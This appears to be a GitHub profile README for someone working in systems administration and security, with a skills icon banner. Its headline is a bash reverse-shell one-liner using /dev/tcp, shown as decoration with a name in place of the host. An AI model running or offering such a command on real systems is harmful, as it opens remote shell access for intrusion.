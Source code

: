  <h1 align="center"> /bin/bash -i >& /dev/tcp/Sandra.Costales/444 0>&1 </h1>


<p align="left">
  
  <img src="https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExeDgzMmtzamtpeTB6cmF3aHZ2NmNyM3JyYzlhcG5uaHRjd3JuNTJ4cyZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/oYQ9HRm5Mo7VXeMNVR/giphy.gif" alt="image" width="450" align="right">
  </p>

- 💻 Systems Administration

- 🔐 Network Security

- 🌐 Computer Network Systems

- 🔒 Ethical Hacking

- 📡 Network Monitoring

- 💾 Data Backup and Recovery

- 🛡️ Penetration Testing

- 🔍Vulnerability Analysis 

<h1> Skills :</h1>


<p align="center">
  <a href="https://skillicons.dev">
    <img src="https://skillicons.dev/icons?i=git,kubernetes,docker,ansible,aws,bash,debian,elasticsearch,gitlab,grafana,html,js,kali,kubernetes,linux,md,mysql,netlify,nginx,powershell,prometheus,py,raspberrypi,ubuntu,vscode&perline=12  " />
  </a>
</p>






